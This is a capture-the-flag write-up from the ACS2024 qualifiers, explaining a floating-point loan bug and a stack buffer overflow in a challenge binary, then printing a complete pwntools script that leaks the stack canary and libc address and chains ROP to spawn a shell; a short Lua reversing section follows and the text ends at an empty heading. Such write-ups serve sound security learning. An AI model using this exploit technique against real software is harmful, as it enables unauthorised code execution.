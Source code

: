 # ACS2024 Quals Writeup by Teh Tarik Cendol

## Table of Contents
- [Audit/no-name minor](#Auditno-name-minor)
- [Rev/CS1338: Script Programming](#RevCS1338-Script-Programming)
- [Rev/Secure Chat](#RevSecure-Chat)

# Audit/no-name minor

This was a challenge similar to the one I created for Battle of Hackers 2024 so we solved it relatively fast. The challenge provides us with a binary that presents a menu that allows the user to borrow a loan, repay the loan, mining for money, buy a name and change name. 

![image](https://github.com/user-attachments/assets/90df0d94-6313-47c3-98f0-9376ca855de0)

The goal is to get a name. But 

- To buy a name, you need to have money.
- To have money you cannot simply mine, cause it will take a lot of time.
- So you need to loan and then repay them.

The vulnerability lies in the way the program keeps track of the user's loan.

<details>
<summary>Source Code</summary>

```c
// Miner struct
struct MinerAccount {
	float cash;
	float debt_balance;
	int mining_attempts;
	char name[0x20];
};

// Loan function
void loan(struct MinerAccount *account) {
	uint32_t amount = 0;
    
	printf("How much loan would you like to request?\n");
	if(scanf("%d", &amount) != 1) {
    	printf("Invalid input\n");
    	return;
	}
    
	if(account->debt_balance + amount > MAX_LOAN) {
    	printf("Loan limit exceeded\n");
    	return;
	}

	account->cash += amount;
	account->debt_balance += amount;

	printf("Current cash: $%.2f\n", account->cash);
	printf("Debt balance: $%.2f\n", account->debt_balance);
}
```
</details>

The user's loan is defined as a float, which can be subjected to **floating point inaccuracy.**  A float is 32 bit and it has 1 bit for sign, 23 bit for mantissa and 8 bit for exponent. For integers, the inaccuracy starts at 2^24 (16,777,216). In other words, all integers can be represented as floats up to 2^24 but not beyond that. Specifically, in the range of 2^24 to 2^25, float does not support odd numbers, only even numbers.

<details>
<summary>Proof of Concept</summary>

### Proof of Concept

![image](https://github.com/user-attachments/assets/e75708b0-e383-4faa-bb98-5bbff0919289)

Heres a simple C program that demonstrates this

![image](https://github.com/user-attachments/assets/592a968a-5ee3-4b0d-a6b0-281de6eae7fa)

This is the output

</details>

### Exploiting the Program

Now, we just need to borrow money until 16777216, buy the name, and borrow loan of size $1 until we eventually are able to repay our loan.

![image](https://github.com/user-attachments/assets/ad4d18bc-c5af-45d3-b630-8f4067bb0321)

Buying the name

![image](https://github.com/user-attachments/assets/318be9bc-d5d2-419d-a6cb-637534776cb4)

After borrowing $1

### Buffer Overflow

<details>
<summary>Source Code</summary>

```c
#define MAX_BUF 0x200
struct MinerAccount {
	float cash;
	float debt_balance;
	int mining_attempts;
	char name[0x20];
};

void change_name(struct MinerAccount *account) {
	if (has_name_rights != 1) {
    	printf("You do not have the right to change your name.\n");
    	printf("Please purchase a name to gain the rights to rename your no-name.\n");
    	return;
	}
	if(account->debt_balance != 0) {
    	printf("You still have debts to repay.\n");
    	printf("Pay off your debts to rename your no-name.\n");
    	return;
	}
	printf("Enter new name.\n");
	read(0, account->name, MAX_BUF);

	printf("Name updated successfully.\n");
}

int main() {
	initialize();
	srand(time(NULL));
	struct MinerAccount account = {0, 0, 0, "no-name"};
	while(1) {
    	int choice;
    	printf("===========================\n");
    	printf("Welcome to %s\n", account.name);
    	printf("Current cash: $%.2f\n", account.cash);
    	printf("Debt balance: $%.2f\n", account.debt_balance);
    	printf("===========================\n");

    	printf("1. Loan\n2. Repayment\n3. Mining\n4. Buy Name\n5. Change Name\n6. Exit\nChoose an action.\n");
    	scanf("%d", &choice);
    	switch(choice) {
        	case 1:
            	loan(&account);
            	break;
        	case 2:
            	repayment(&account);
            	break;
        	case 3:
            	mining(&account);
            	break;
        	case 4:
            	buy_name(&account);
            	break;
        	case 5:
            	change_name(&account);
            	break;
        	case 6:
            	return 0;
        	default:
            	printf("Invalid choice\n");
            	break;
    	}
	}
	return 0;
}
```
</details>

The name in MinerAccount object was assigned to only 0x20 size, but in change_name function we can change up until 0x200. With the help of the printf() in main, we are able to leak the stack canary and libc address after overwriting enough bytes using read(). Putting it all together, we get 

1) We loan 16777216 money
2) Then we buy name so our money no 16777216 - 1337
3) Then if we loan 1 dollar each time, our cash increase, but debt stays the same. So we loan 1 dollar for 1337 times
4) Then can repay all debt
5) Now start the leaking process through name
6) Leak canary
7) Leak libc_start_main address
8) Proceed will rop chain to system

<details>
<summary>Exploit Script</summary>

```py
from pwn import *

exe = './prob'
elf = context.binary = ELF(exe, checksec = False)
io = elf.process()

context.log_level = 'info'

#---------------------------------------------------------------------
sleep(1)
#io.recvuntil(b'Choose an action.\n')
io.sendline(b'1')
#io.recvuntil(b'How much loan would you like to request?\n')
io.sendline(b'16777216')

#io.recvuntil(b'Choose an action.\n')
io.sendline(b'4')


for i in range(1337):
#	io.recvuntil(b'Choose an action.\n')
	io.sendline(b'1')
#	io.recvuntil(b'How much loan would you like to request?\n')
	io.sendline(b'1')

io.recvuntil(b'Choose an action.\n')
io.sendline(b'2')
io.recvuntil(b'How much would you like to repay?\n')
io.sendline(b'16777216')

io.recvuntil(b'Choose an action.')
io.sendline(b'5')
io.recvuntil(b'Enter new name.')
io.sendline(b'A'*44)

io.recvuntil(b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\n')
canary = io.recv(7).strip()
canary = b'\x00'+canary
canary = unpack(canary)
info(f'Canary: {hex(canary)}')

io.recvuntil(b'Choose an action.')
io.sendline(b'5')
io.recvuntil(b'Enter new name.')
io.sendline(b'A'*59)
io.recvuntil(b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\n')
libc_add = unpack(io.recv(6).strip().ljust(8,b'\x00'))
info(f'libc leaked : {hex(libc_add)}')

io.recvuntil(b'Choose an action.')
io.sendline(b'5')
io.recvuntil(b'Enter new name.')

libc = ELF('./libc.so.6')
libc.address = libc_add-0x29d90
rop = ROP(libc)
rop.system(next(libc.search(b'/bin/sh\x00')))

payload = b'A'*44
payload += p64(canary)
payload += b'A'*8
payload += p64(libc.address + 0x0000000000029cd6)
payload += rop.chain()
io.sendline(payload)

#--------------------------------------------------------------------
io.interactive()
```
</details>

# Rev/CS1338: Script Programming

![image](https://github.com/user-attachments/assets/0d5f6ee7-5b36-48fa-8de2-a42a96f3dcb6)

![image](https://github.com/user-attachments/assets/88e3fbcd-01f1-4b0f-8fc2-0a4b20403711)

Given the lua file, we know that it shows the source code of the instance and we are required to connect to the instance and send the correct string in order to get the flag. From the source code, we can see that it loads a file named library.

![image](https://github.com/user-attachments/assets/19b83fbe-001b-4c42-ad58-e83641a02a46)

We tried online decompiler for lua but failed, so ended up using an open source compiler that we learned from https://www.youtube.com/watch?v=nQR1raNkd2s.

![image](https://github.com/user-attachments/assets/e6f88783-f3d0-4860-8d6a-152e4930b4f7)

![image](https://github.com/user-attachments/assets/7aed4f77-0b0e-4b02-9a80-a7991e928c8c)

# Rev/Secure Chat
